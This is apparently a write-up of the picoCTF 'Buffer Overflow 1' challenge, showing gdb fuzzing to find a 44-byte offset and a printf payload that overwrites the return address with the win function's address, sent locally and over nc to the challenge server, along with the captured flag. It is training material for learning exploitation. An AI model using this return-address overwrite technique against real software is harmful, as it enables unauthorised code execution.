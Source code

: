 # Buffer Overflow 1


## Description

Control the return address.

Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/250/vuln).

You can view source [here](https://artifacts.picoctf.net/c/250/vuln.c). And connect with it using 

```bash
nc saturn.picoctf.net 50916
```

## Preface

Reading the source code, we needed to ensure that we have a flag locally that we use to debug:

```bash
echo "picoCTF{some_flag}" > flag.txt
```


## Exploitation

Sent 50 `U` as payload, we can see that the return address was overwritten:
```
(gdb) r
Starting program: vuln 
Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU

Breakpoint 1, 0x080492a3 in vuln ()
(gdb) c
Continuing.
Okay, time to return... Fingers Crossed... Jumping to 0x55555555

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Trying again with 44 `U` and `1234`, we can see that we now control the return address:

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: vuln 
Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU1234

Breakpoint 1, 0x080492a3 in vuln ()
(gdb) c
Continuing.
Okay, time to return... Fingers Crossed... Jumping to 0x34333231

Program received signal SIGSEGV, Segmentation fault.
0x34333231 in ?? ()
```

## Finding the Return Address

To find the return address, we need to look at where at the address where the `win` function starts since we want the program to jump there when it finishes executing the `vuln` function:










Converting the calling address of the `win` function together with the fuzzing, we're able to get the flag:

```bash
printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xf6\x91\x04\x08" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{some_flag}
[1]    57020 done                              printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xf6\x91\x04\x08" | 
       57021 segmentation fault (core dumped)  ./vuln

```



To get the flag from the remote server:
```bash
cat <(printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xf6\x91\x04\x08") - | nc saturn.picoctf.net 58677
Please enter your string: 

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```





